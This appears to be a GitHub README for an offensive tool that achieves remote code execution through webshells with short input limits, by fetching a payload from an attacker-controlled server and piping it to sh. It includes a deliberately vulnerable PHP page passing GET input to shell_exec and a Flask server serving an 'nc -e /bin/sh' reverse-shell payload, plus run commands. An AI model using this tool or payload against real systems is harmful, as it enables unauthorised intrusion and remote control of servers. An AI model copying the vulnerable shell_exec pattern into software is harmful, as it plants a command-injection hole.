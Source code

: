 # Description
Tool to RCE in limited input length webshells.  
It pipes the payload to sh, you can customize it with a few changes in the source code (python is already done, just uncomment it), also you could modify it to execute commands directly.

# Usage
```
python3 lentool.py -t http://targetexample.com/?start -u http://myserverexample.com
--target, -t: Target URL with param.  
--url, -u: Web server hosting the payload.
```
 # POC
 Vulnerable application:
 ```php
 <?php
 
$sandbox = '/home/estse/sandbox/';
@mkdir($sandbox);
@chdir($sandbox);

if (!isset($_GET['start'])){
	show_source(__FILE__);
	exit;
}

// This will return output only for id and ps.
if (strlen($_GET['start']) < 5){
	echo shell_exec($_GET['start']);
} else {
	echo "Please enter a valid command";
}

?>
 ```
 Flask server to host the payload:
 ```python
 from flask import Flask, Response
 
app = Flask(__name__)
 
@app.route('/')
def i():
    return Response("nc -e /bin/sh 127.0.0.1 1234", headers={'Content-Type': 'text/plain'}, status=200)
 
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=4321)
 ```
 Run:
 ```
 python3 lentool.py -t http://127.0.0.1:1808?start -u 127.0.0.1:4321
 ```
 

https://user-images.githubusercontent.com/40002393/154508216-648b8403-f78a-4298-b68c-85944a2118e1.mp4

